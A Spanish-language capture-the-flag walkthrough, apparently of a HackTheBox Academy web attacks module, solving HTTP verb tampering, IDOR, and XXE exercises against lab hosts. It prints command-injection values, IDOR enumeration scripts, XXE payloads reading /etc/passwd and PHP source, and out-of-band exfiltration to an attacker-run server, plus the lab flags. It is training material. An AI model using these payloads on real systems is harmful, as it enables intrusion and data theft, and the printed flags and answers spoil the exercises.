# Web Attacks

## HTTP Verb Tampering

### Bypassing Basic Authentication

1. **Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.***

Empezamos la actividad de esta forma,

<p align="center"> 

</p>

Luego, le damos al botón **reset** e interceptamos la solicitud 

<p align="center"> 

</p>

Pero no podemos llevar acabo la solicitud, por tanto cambio la solicitud de **GET** a **OPTIONS**  y...

<p align="center"> 

</p>

Recargamos otra vez la pagina, y nos aparece la flag.

<p align="center"> 

</p>

answer: **HTB{4lw4y5_c0v3r_4ll_v3rb5}**

### Bypassing Security Filters

1. **To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./**

En esta ocasión al interceptar el ejercicio la solicitud lo tendremos que cambiar de **GET** a **POST** dándole a **Change request method**

<p align="center"> 

</p>

 La solicitud quedaría tal que así:

<p align="center"> 

</p>

Luego, en el parámetro filename haremos el siguiente cambio:

```
filename=test; touch file3;
```

<p align="center"> 

</p>

Actualizamos la pagina web 

<p align="center"> 

</p>

Al comprobar que es vulnerable haremos el siguiente comando

```
filename=test; cp /flag.txt .;
```

<p align="center"> 

</p>

En la pagina se vería:

<p align="center"> 

</p>

```
http://154.57.164.78:31582/flag.txt
```

<p align="center"> 

</p>

answer: **HTB{b3_v3rb_c0n51573n7}**

## Insecure Direct Object References (IDOR)

### Mass IDOR Enumeration

1. **Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.**

Preparamos el siguiente script 

```bash
#!/bin/bash
url="154.57.164.70:31201"
 
for i in {1..20}; do
    echo "Checking uid $i"
    for link in $(curl -X POST -d "uid=$i" "$url/documents.php" | grep -oP "\/documents\/[^']*\.(pdf|txt)"); do
        filename=$(basename "$link")
        wget -q "$url$link"
        if [[ "$filename" == *.txt ]]; then
            echo "FLAG FOUND: $filename"
            cat "$filename"
        fi
    done
done
```

Este es un script de Bash diseñado para **automatizar la búsqueda y descarga de archivos** en un servidor web específico, buscando especialmente archivos de texto (`.txt`) que puedan contener una "flag"

Luego le damos permiso de ejecución al **script.sh**

```
chmod +x script.sh
./script.sh
```

<p align="center"> 

</p>

Una vez obtenido la url de donde reside la flag, la intentamos obtener

```
curl '154.57.164.70:31201/documents/flag_11dfa168ac8eb2958e38425728623c98.txt'
```

answer: **HTB{4ll_f1l35_4r3_m1n3}**

### Bypassing Encoded References

1. **Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.**

En primer lugar, la url la encontramos aquí: 

<p align="center"> 

</p>

Luego, lo interceptamos con burpsuite, y obtenemos la url vulnerable.

<p align="center"> 

</p>

 En esta actividad tendremos que preparar el siguiente script 

```bash
#!/bin/bash
url="http://154.57.164.70:31201/download.php?contract="
for i in {1..20}; do
    # Reproduce the exact encoding: uid -> base64
    encodedid=$(echo -n $i | base64 -w 0)
 
    echo "Testing user $i (contract=$encodedid)..."
 
    # Make request and capture response
    response=$(curl -s "${url}${encodedid}")
 
    # Check for meaningful content
    if [[ ${#response} -gt 10 ]]; then
        echo "  ✓ Found content for user $i:"
        echo "$response"
    else
        echo "  ✗ Empty or minimal response"
    fi
done
```

Este script es parecido al de la actividad anterior, también automatiza la búsqueda de información, pero a diferenciar del anterior script, este utiliza una técnica diferente, que es mediante **la fuerza brutas** a través de codificación **Base64**

Le damos permiso de ejecución 

```
chmod +x script02.sh
./script02.sh
```

<p align="center"> 

</p>

answer: **HTB{h45h1n6_1d5_w0n7_570p_m3}**

### IDOR in Insecure APIs

1. **Try to read the details of the user with 'uid=5'. What is their 'uuid' value?**

Abra la página, y me voy al apartado donde dice **edit Profile** y luego intercepto **Update Profile** con **burpsuite**.

<p align="center"> 

</p>

Una vez interceptado tendremos que cambiar la solicitud de **PUT** a **GET**

<p align="center"> 

</p>

La solicitud quedaría así, luego pasamos **GET /profile/api.php/profile/1** a **GET /profile/api.php/profile/5**

<p align="center"> 

</p>

Response:

<p align="center"> 

</p>

answer: **eb4fe264c10eb7a528b047aa983a4829**

### Chaining IDOR Vulnerabilities

1. **Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.**

Para realización de este ejercicio lo más cómodo es realizar un script 

```bash
#!/usr/bin/env bash

url="http://154.57.164.82:31801"

for i in {1..20}; do
    curl -sS "$url/profile/api.php/profile/$i" -H "Cookie: role=employee" | python3 -m json.tool
done
```

Este script es un bucle automatizado en Bash diseñado para interactuar con una API web de forma secuencial. Su objetivo es solicitar información de los perfiles de usuario del 1 al 20 de manera automática en lugar de hacerlo manualmente uno por uno.

Le damos permiso de ejecución y ejecutamos

```
chmod +x script03.sh
./script03.sh
```

<p align="center"> 

</p>

Comprobamos que el usuario 10 es el admin, por tanto en burpsuite preparamos la solictud de la siguiente manera. Con el metodo Get obtenemos toda la info del usuario 10.

<p align="center"> 

</p>

Luego cambiamos la solicitud **GET** a **PUT** y el contenido del apartado email lo cambiamos a **flag@idor.htb** que quedaría tal que así:

<p align="center"> 

</p>

Le damos a **Send** y luego nos vamos aquí 

<p align="center"> 

</p>

y nos aparecerá la flag

<p align="center"> 

</p>

answer: **HTB{1_4m_4n_1d0r_m4573r}**

## XML External Entity (XXE) Injection

### Local File Disclosure

1. **Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.**

Empezamos la actividad rellenando un formulario, el envío del formulario lo interceptamos, luego, lo enviamos al repeater

<p align="center"> 

</p>

Para detectar primero si es vulnerable a ataques XML (XXE) una parte del formato es XML y en mi caso si que lo es. Luego en segundo lugar, hay que añadir esto:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY mivariable "hola mundo" >       
]>
<root>
<email>&mivariable;</email>
</root>
```

**Si el servidor responde** y en la pantalla de la web aparece la palabra _"Hola Mundo"_ donde antes iba el nombre, significa que el servidor **procesa y renderiza entidades**. Esto es una señal de alerta máxima.

<p align="center"> 

</p>

Como funciona, lo siguiente que probaremos es leer el archivo **/etc/passwd**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY mivariable SYSTEM "file:////etc/passwd" >
]>
<root>
<email>&mivariable;</email>
</root>
```

<p align="center"> 

</p>

Conseguimos leer el fichero **/etc/passwd**. Por tanto, el siguiente objetivo es leer el archivo **connection.php** lo haremos en base64 como aprendimos en el módulo **File Upload Attacks**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY mivariable SYSTEM "php://filter/convert.base64-encode/resource=connection.php" >
]>
<root>
<email>&mivariable;</email>
</root>
```

<p align="center"> 

</p>

Una vez obtenido el contenido del archivo **connection.php** en base64 nos iremos al **Decoder** y lo traducimos a texto plano.

```
PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K
```

<p align="center"> 

</p>

answer: **UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg**

### Advanced File Disclosure

1. **Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**

Tenemos que crear el siguiente archivo 

```
echo '<!ENTITY pepito "%begin;%file;%end;">' > xxe.dtd
```

<p align="center"> 

</p>

Donde **pepito** va ser la palabra clave que usaremos para que haga referencia a **"%begin;%file;%end;"** Defino las 3 entidades del parámetro:

- `%begin;`: Guarda el string de apertura `<![CDATA[`.
- `%file;`: Va y busca el archivo oculto en el servidor (`file:///flag.php`).
- `%end;`: Guarda el string de cierre `]]>`.

Una vez creado el archivo, lo ponemos para descargar con el siguiente comando:

```
python3 -m http.server 8000
```

Luego, vamos intercepta de nuevo el formulario y lo mandaremos al **repeater** 

<p align="center"> 

</p>

Explico un poco lo que he hecho, captura la solicitud previa del envió del formulario, luego lo envio esa misma solicitud sin cambiar nada pero con **burpsuite** y me fijo en la respuesta. Observo que hace referencia el nombre del email que puse. Por tanto, eso significa que usare el parámetro **email** para reflejar el contenido de **/flag.php**

La solicitud cambiaría a:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///flag.php"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % antonio SYSTEM "http://10.10.14.102:8000/xxe.dtd"> 
  %antonio;
]>
<root>
	<email>
	&pepito;
	</email>
</root>
```

<p align="center"> 

</p>

Luego aquí lo que hacemos es básicamente definir las variables que hemos iniciado en el archivo **xxe.dtd**. La única variable que se define en la propia solicitud es **antonio** que hace referencia al archivo que hemos preparado anteriormente en nuestra kali **http://10.10.14.102:8000/xxe.dtd** lo volvemos a usar **%antonio;** para que el sistema entienda que queremos usarla. Por último, en el parámetro **email** hacemos referencia el contenido de **flag.php**

Luego, esta es la estructura del ataque:

```
<![CDATA[ [CONTENIDO_DE_FLAG.PHP] ]]>
```

Por último, uso variables de nombre como **antonio** y **pepito**, dando a entender que se puede usar cualquier nombre y que todo el ataque tiene una lógica detrás :P

answer: **HTB{3rr0r5_c4n_l34k_d474}**

### Blind Data Exfiltration

1. **Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.**

Empezamos esta actividad creando un archivo **xxe.dtd** con el siguiente contenido:

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.102:8000/?content=%file;'>">
```

**¿Qué hace la primera línea (`%file;`)?**

Va a buscar el archivo de la flag (`327a6c43...php`), pero usa un filtro de PHP (`php://filter/.../base64-encode`). Esto transforma todo el código PHP de la flag en un churro de texto incomprensible (Base64) como `PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K`
- **¿Por qué?** Porque el Base64 no tiene caracteres raros como `<` o `?`, lo que garantiza que viaje por internet de forma segura sin romper el XML.

**¿Qué hace la segunda línea (`%oob;`)?**

Aquí creas una entidad dentro de otra entidad (un truco avanzado de XML). Estás definiendo dinámicamente una variable llamada `&content;`. Lo mágico es lo que tiene dentro: apunta a **tu servidor** (`http://10.10.14.102:8000/?content=%file;`). El servidor de la víctima reemplazará `%file;` por el churro en Base64 de la flag.

Luego, el archivo **index.php** que tiene el siguiente contenido:

```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Su único trabajo en el mundo es escuchar, traducir la flag y guardarla en un archivo de texto (un log) para que no la pierdas.

Para que se ejecute el script **.php** tenemos que activar un servidor nativo en PHP

```
php -S 0.0.0.0:8000
```

Colocaremos este comando en el mismo sitio donde hemos creado los dos archivos **xxe.dtd** y **index.php**

Luego cuando interceptemos el formulario, y pasado al repeater, la solicitud debería de quedar tal que así:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.102:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

<p align="center"> 

</p>

Cuando envías la petición modificada en Burp, la víctima lee esto dentro del `DOCTYPE`:

1. `<!ENTITY % remote SYSTEM "http://.../xxe.dtd">`: La víctima va a tu servidor Python y se descarga tu `xxe.dtd`.
2. `%remote;`: Ejecuta tu DTD, cargando en su memoria el filtro Base64 de la flag.
3. `%oob;`: Ejecuta la segunda línea de tu DTD, lo que genera internamente la variable final `&content;` (la que tiene la URL con la flag pegada al final).

Y finalmente, en el cuerpo del XML pones:

XML

```xml
<root>&content;</root>
```

Al procesar `<root>&content;</root>`, obligas a la víctima a activar esa URL. Para poder "pintar" lo que hay en `&content;`, la víctima **no tiene más remedio que hacer una petición HTTP GET a tu servidor web**, enviándote la flag en la URL.

Una vez ejecutado la solicitud de **burpsuite**, nos tenemos que ir al servidor **php**

<p align="center"> 

</p>

 answer: **HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}**

## Skills Assesment

### Skills Assesments

1. **Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'**

Authenticate to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_student!</font>"

En primer lugar, haremos login con las credenciales aportadas. Luego, iremos a **settings.php** para cambiar la contraseña del usuario e interceptamos la solicitud con **burpsuite**

<p align="center"> 

</p>

La solicitud lo mandamos al **repeater**, me doy cuenta que tanto en el **uid=74** como **/api.php/token/74** Tiene la vulnerabilidad IDOR, que básicamente accedemos a información que no deberíamos acceder. 

<p align="center"> 

</p>

Para poder acceder a los datos del usuario tenemos que cambiar ligeramente este enlace **/api.php/token/4** a **/api.php/user/4**

<p align="center"> 

</p>

Luego, la idea es obtener la cuenta admin, hay dos formas de hacerlo mediante un script de python o mediante bursuite. Explicaré ambas formas:

**Mediante script**

```bash
#!/bin/bash  
BASE_URL="http://154.57.164.71:32439/api.php/user"  
for uid in {1..100}; do  
response=$(curl -s -w "\n" "${BASE_URL}/${uid}")  
if [ -n "$response" ]; then  
echo "[*] User ID: ${uid} | ${response}"  
fi  
done
```

Le damos permiso de ejecución

```
chmod +x script.sh
```

<p align="center"> 

</p>

>`[*] User ID: 52 | {"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}`

**Mediante burpsuite**

En primer lugar, mandamos la solicitud a **intruder** donde esta el número 74 lo ponemos así **$74** para así pillar todos los usuarios posibles.

<p align="center"> 

</p>

En segunda lugar tocaría el **payload**, En el tipo de payload elegimos **number** que vaya desde **0** a **100** y desmarcamos la casilla **URL-encode these characters**

<p align="center"> 

</p>

En tercer lugar, configuramos **grep -match** y añadimos lo siguiente usuario “admi”, “administrator”, “Admin” y “Administrator” con el objetivo de encontrar el código del administrador.

<p align="center"> 

</p>

Iniciamos el ataque **start attack**

<p align="center"> 

</p>

Nos señala el usuario **administrator**.

Me he dado cuenta que también esta url **/api.php/token/** también nos sirve, ya que, obtenemos el token del usuario administrator, que nos servirá para cambiar la contraseña.

<p align="center"> 

</p>

>{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}

Para conseguir exitosamente el cambio de contraseña tendremos que hacer la siguiente consulta y además cambiar el tipo de solicitud.

```
POST /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=a
```

<p align="center"> 

</p>

Una vez obtenida el cambio de contraseña (**a**) del usuario **a.corrales**, hacemos login con las nuevas credenciales, luego nos vamos a **add events** e interceptamos la solicitud con **burpsuite**

<p align="center"> 

</p>

Así se vería la solicitud con **burpsuite**

<p align="center"> 

</p>

Hemos encontrado una pequeña brecha y podemos visualizar en un futuro en el parámetro **name** la flag del ejercicio, realizaremos la siguiente prueba a ver si es vulnerable.

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY company "Inlane Freight">
]>
            <root>
            <name>&company;</name>
            <details>events details</details>
            <date>2026-06-13</date>
            </root>
```

<p align="center"> 

</p>

Confirmamos que es vulnerable, luego intentamos leer el fichero **/etc/passwd**

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY company SYSTEM "file:////etc/passwd">
]>
            <root>
            <name>&company;</name>
            <details>events details</details>
            <date>2026-06-13</date>
            </root>
```

<p align="center"> 

</p>

Conseguimos leerlo, ahora el objetivo es obtener el contenido del fichero **/flag.php** mediante **base64**

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
            <root>
            <name>&company;</name>
            <details>events details</details>
            <date>2026-06-13</date>
            </root>
```

<p align="center"> 

</p>

Obtenemos el contenido del fichero **/flag.php** en base64 

>PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K

En **Decoder**  decodificamos el código base64 a texto plano y obtenemos la flag.

<p align="center"> 

</p>

answer: **HTB{m4573r_w3b_4774ck3r}**